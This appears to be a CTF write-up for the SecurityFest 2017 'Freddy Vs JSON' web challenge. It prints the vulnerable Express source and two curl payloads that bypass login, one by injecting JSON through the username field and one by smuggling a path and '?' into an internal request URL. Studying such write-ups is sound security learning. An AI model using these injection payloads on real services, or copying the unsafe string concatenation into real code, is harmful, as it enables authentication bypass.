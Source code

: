 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
title: SecurityFest2017 - Freddy Vs JSON
tags: schemainjection
mathjax: false
imagefeature: /images/express.jpg
description: SecurityFest2017 - Freddy Vs JSON Writeup
category: Web Exploitation
chart: null
---
```



## Problems

```
Can you hack my friends facebook? no? what about this then?
Solves: 19
Service: http://52.208.132.198:2999/
Author: avlidienbrunn
```


## Writeup

First impression i thought that was SQL Injection challenges to get into login bypass but after a while
i just figure it they using Express that was node web framework.

```
➔ curl http://52.208.132.198:2999/ -v
*   Trying 52.208.132.198...
* Connected to 52.208.132.198 (52.208.132.198) port 2999 (#0)
> GET / HTTP/1.1
> Host: 52.208.132.198:2999
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 1813
< ETag: W/"715-DSGKN9kwhacZR6TO5Ab8xoUqS9Y"
< Date: Fri, 02 Jun 2017 02:25:59 GMT
< Connection: keep-alive
< 
```

so let's try to find some file configuration that's usually used by node and i just found
`package.json` is readable for us.

```js
{
    name: "freddyvsjson",
    version: "1.0.0",
    description: "hi",
    main: "index.js",
    dependencies: {
    body-parser: "^1.17.1",
    express: "^4.15.2",
    express-jwt: "^5.3.0",
    request: "^2.81.0"
},
devDependencies: { },
scripts: {
    test: "echo "Error: no test specified" && exit 1"
},
author: "",
license: "ISC"
}
```

this file actually leaking some information for further testing. we now have idea what module used.
and again we can read `index.js` content.

```js
require('./local');
var crypto = require('crypto');
var express = require('express');
var request = require("request");
var app = express();

var bodyParser = require('body-parser');
app.use(bodyParser.urlencoded({
	extended: true
})); 

app.use(express.static('.'));

app.listen(2999, function () {
  console.log('Example app listening on port 2999!')
});

index = `<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <script src="https://code.jquery.com/jquery-1.12.4.min.js"></script>
      <script src="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/js/bootstrap.min.js"></script>
      <script src="/static/index.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
      <link rel="stylesheet" href="/static/freddy.css" />
  </head>
  <body><section class="login-info">
<div class="container">
  <div class="row main">
       <div class="form-header elegant-color">
          <h1 class="text-center ">Authenticate</h1>
        </div>
    <div class="main-content">
            
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-envelope" aria-hidden="true"></span></span>
            <input id="user" type="text" class="form-control text-center" name="email" placeholder="Enter your Email">
          </div>
          <div class="input-group">
            <span class="input-group-addon"><span class="glyphicon glyphicon-lock" aria-hidden="true"></span></span>
            <input id="pass" type="password" class="form-control text-center" name="password" placeholder="Enter your Password">
          </div>
          
          <div class="form-group ">
              <a href="#" id="login" type="button"  class="btn btn-danger btn-lg btn-block login-button">login</a>
          </div>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>`;

app.get('/', function (req, res) {
	res.send(index);
});

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

app.post("/", function(req, res){
	if(req.body.user && req.body.pass){
		user = req.body.user;
		pass = crypto.createHash('md5').update(req.body.pass).digest("hex");
		//Query internal login service
		request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
			console.log(body);
      try{
			   body = JSON.parse(body);
      }catch(x){
         body = {"authenticated":false, "user":req.body.user, "id":0}
      }
			if(body.authenticated){
				body.response = "Congratulations: " + process.env.FLAG;
			}else{
        body.response = "Invalid username or password!";
      }
			res.send(JSON.stringify(body));
		});
	}else{
		res.send("hi");
	}
})
```

and we found another file `local.js` which is included in first line of `index.js`

```js
var express = require('express');
var crypto = require('crypto');
var localapp = express();

localapp.listen(3001, '127.0.0.1', function () {
  console.log('JWT service up!')
});

db = [
	{"user":"admin","pass":"9c72256fdb7196d2563a38b84f431491","id":"1"}
];

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

function verify(user, pass){
	db_user = db[0]; //TODO: sync with LDAP instead
	if(user && user == db_user["user"]){
		if(pass && pass == db_user["pass"]){
			return db_user["id"];
		}
	}
	return 0;
}

localapp.get('/createTicket/:user/:pass', function (req, res) {
	user = req.params.user;
	pass = req.params.pass;
	userid = verify(user, pass);
	if(userid){
		res.send('{"authenticated":true, "user":"'+user+'", "id":'+userid+'}');
	}else{
		res.send('{"authenticated":false, "user":"'+user+'", "id":'+userid+'}');
	}
})
```

after trying to understand how this app works, i am trying to bruteforce this password hash `9c72256fdb7196d2563a38b84f431491` 
and my guess about SQL injection is gone because they using hardcoded db rather than using connection to some databases.

so the hash isn't crackable not get anyhing, and again i just read the `index.js` file to find some other ways to get authenticated
then i found this part in `index.js` can be exploited

```js
  try{
		   body = JSON.parse(body);
  }catch(x){
     body = {"authenticated":false, "user":req.body.user, "id":0}
  }
```

if we fail to authenticate with correct password the code will trigger catch, as we can see we can control
`req.body.user` variable so we can overwrite the `"authenticated":false`.

we can get flag with this curl
`curl -X POST http://52.208.132.198:2999/ --data 'user=admin", "authenticated":"true&pass=foobar'`

we have another way for bypass the login exploiting this line in `index.js`

```js
request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
```

we can simply input user like `admin/<hash>?` and password `anything`, question mark at the end to ignore whatever after that

```
curl -X POST http://52.208.132.198:2999/ --data 'user=admin/9c72256fdb7196d2563a38b84f431491?&pass=foobar'
```

so we got the flag `{"authenticated":true,"user":"admin","id":1,"response":"Congratulations: SCTF{1nj3ction_5chm1nj3ctioN}"}`